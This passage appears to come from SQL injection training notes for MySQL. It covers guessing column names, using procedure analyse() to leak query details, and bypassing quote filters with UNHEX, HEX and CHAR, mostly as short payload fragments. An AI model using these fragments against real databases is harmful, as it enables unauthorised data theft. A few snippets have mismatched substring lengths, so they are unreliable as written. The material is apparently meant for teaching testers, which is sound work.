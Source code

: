 Another option, brute-force or guess the column names by appending other **WHERE** condition such as:
```bash
AND COLUMN IS NOT NULL ...
```

Alternatively, being able to invoke the **stored procedure analyse()**

→ http://dev.mysql.com/doc/refman/5.7/en/procedure-analyse.html

This **sproc** returns juicy information about the query just executed:
```bash
SELECT * FROM employees procedure analyse()
```


## Bypassing Function Filters

Lets now unpack useful techniques and alternative functions For use in these types of scenarios

### Building Strings
In the DBMS Gadget chapter, we discussed how to generate strings but, we used quotes. Building strings without quotes is a little bit tricky:
```bash
- UNHEX
- HEX
- CHAR
- ASCII
- ORD
```

UNHEX is useful in translating hexadecimal numbers to string:
```bash
- http://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_unhex

SUBSTR(USERNAME,1,1)=UNHEX(48)
SUBSTR(USERNAME,1,2)=UNHEX(4845)
...
SUBSTR(USERNAME,1,5)=UNHEX('48454C4C4F')
SUBSTR(USERNAME,1,2)=0x48454C4C4F
```

HEX function is useful to convert o hexadecimal:
```bash
- http://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_hex

HEX(SUBSTR(USERNAME,1,1))=48
HEX(SUBSTR(USERNAME,1,2))=4845
...
HEX(SUBSTR(USERNAME,1,5))='48454C4C4F'
```

CHAR can also be used:
```bash
- http://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_char

SUBSTR(USERNAME,1,1)=CHAR(72)
SUBSTR(USERNAME,1,2)=CHAR(72,69)
...
SUBSTR(USERNAME,1,1)=CONCAT(CHAR(72),CHAR(69))
```
